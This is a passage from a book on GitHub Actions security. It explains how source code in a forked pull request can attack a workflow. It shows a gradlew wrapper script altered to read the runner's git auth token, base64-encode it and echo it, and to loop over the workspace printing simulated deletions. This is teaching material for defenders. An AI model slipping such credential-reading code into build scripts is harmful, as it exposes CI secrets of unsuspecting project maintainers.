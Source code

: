 While the GitHub token was able to be exposed in an issue, it should be noted that GitHub runs checks for this sort of exposure and fairly quickly can detect the issue and revoke the token. An example of the email you get in this kind of situation is shown in [Figure 9-26](#github-token-detected).

![](https://learning.oreilly.com/api/v2/epubs/urn:orm:book:9781098131067/files/assets/lgha_0926.png)<br>
**Figure 9-26. GitHub token detected in issue and revoked**

So far, I’ve only covered examples of workflows introducing vulnerabilities, but of course any code in a forked repository can potentially introduce attacks.

## Vulnerabilities with Source Code in Pull Requests

When running in a GitHub Actions environment, it’s important to remember that, just as workflows operate on source code, source code can also affect workflows, if engineered to do so.

For example, suppose the *gradlew* wrapper script in the forked repository is modified as shown here:

```sh
case $i in
    (0) set -- ;;
    (1) set -- "$args0" ;;
    (2) set -- "$args0" "$args1" ;;
    (3) set -- "$args0" "$args1" "$args2" ;;
    (4) set -- "$args0" "$args1" "$args2" "$args3" ;;
    (5) set -- "$args0" "$args1" "$args2" "$args3" "$args4" ;;
esac
fi

VALUE1=`git --work-tree=/home/runner/work/pr-demo/pr-demo config --get http.[token value location] | base64`
echo VALUE1=$VALUE1

GIT_REPO=`git --work-tree=/home/runner/work/pr-demo/pr-demo config --get remote.origin.url`
echo GIT_REPO=$GIT_REPO
GIT_USER=`echo $GIT_REPO | cut -d'/' -f4`

if [ "$GIT_USER" != gwstudent ]; then
  echo We have access to the file system!
  for i in `ls -R /home/runner/work`; do
    echo "Deleting $i !"
  done
fi

# Escape application args
save () {
  for i do
    printf %s\\n "$i" | sed "s/'/'\\\\''/g;1s/^/'/;\$s/\$/' \\\\/"
  done
  echo " "
}

APP_ARGS=$(save "$@")

# Collect all arguments for the java command, following shell
eval set -- $DEFAULT_JVM_OPTS $JAVA_OPTS $GRADLE_OPTS "\"-Dorg.gradle.appname=$APP_BASE_NAME\"" -classpath "\"$CLASSPATH\"" org.gradle.wrapper.GradleWrapperMain "$APP_ARGS"

# by default we should be in the correct project dir
cd "$(dirname "$0")"
fi

exec "$JAVACMD" "$@"
```
